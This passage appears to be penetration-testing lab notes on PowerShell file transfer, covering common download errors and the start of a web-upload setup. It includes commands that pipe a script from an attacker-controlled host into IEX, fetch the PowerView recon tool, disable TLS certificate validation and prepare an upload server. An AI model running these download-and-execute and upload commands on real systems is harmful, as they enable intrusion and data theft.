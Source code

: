 ```powershell
PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

#### Common Errors with PowerShell
* There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download
	* This can be bypassed using the parameter `-UseBasicParsing`

```powershell
PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX

Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand

PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

* SSL/TLS certificate not trusted

```powershell
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust
relationship for the SSL/TLS secure channel."
At line:1 char:1
+ IEX(New-Object Net.WebClient).DownloadString('https://raw.githubuserc ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : WebException
PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

### PowerShell Web Uploads
* PowerShell doesn't have a built-in function for upload operations
* But we can use `Invoke-WebRequest` or `Invoke-RestMethod` to build our upload function

#### Installing a Configured WebServer with Upload
```sh
$ pip3 install uploadserver

Collecting upload server
  Using cached uploadserver-2.0.1-py3-none-any.whl (6.9 kB)
Installing collected packages: uploadserver
Successfully installed uploadserver-2.0.1
```
